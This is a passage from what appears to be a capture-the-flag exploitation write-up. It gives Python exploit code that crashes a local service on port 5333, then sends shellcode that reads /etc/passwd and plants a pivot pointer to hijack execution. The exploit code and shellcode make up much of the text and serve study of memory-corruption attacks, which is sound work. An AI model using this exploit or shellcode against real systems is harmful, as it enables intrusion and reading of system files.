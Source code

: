 # send read request to crash binary
s.send('r ' + str(p_vuln) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '

# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')

s.close()
{% endhighlight)

In the other terminal, I observed:

{% highlight bash)
connect to [127.0.0.1] from localhost [127.0.0.1] 53500
Trace/breakpoint trap (core dumped)
listening on [any] 5333 ...
{% endhighlight)

BOOM! Code execution on my local machine!

At this point I wasted some time to cook up a small shellcode that would re-use existing code in the binary, to verify that the stack was indeed executable in the remote binary. It was, whoop-dee-doo! Next I searched for a proper shellcode and stumbled upon [this one!](http://shell-storm.org/shellcode/files/shellcode-878.php).

I stuck it in the exploit and lo and behold:

{% highlight python)
#!/usr/bin/python

from socket import *
import time, re, struct


def getID(data):
    match = re.search(r'(\d.*)$', data.strip())
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))

# banner
print s.recv(1024)

# send first string. this will be our shellcode
s.send('c 0 \xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41\n')

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_shellcode = getID(data)

print '[+] shellcode = 0x{0:08x}'.format(p_shellcode)


# send second string. this will be our 'pivot' pointer.
s.send('c 0 ' + struct.pack('<L', p_shellcode) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '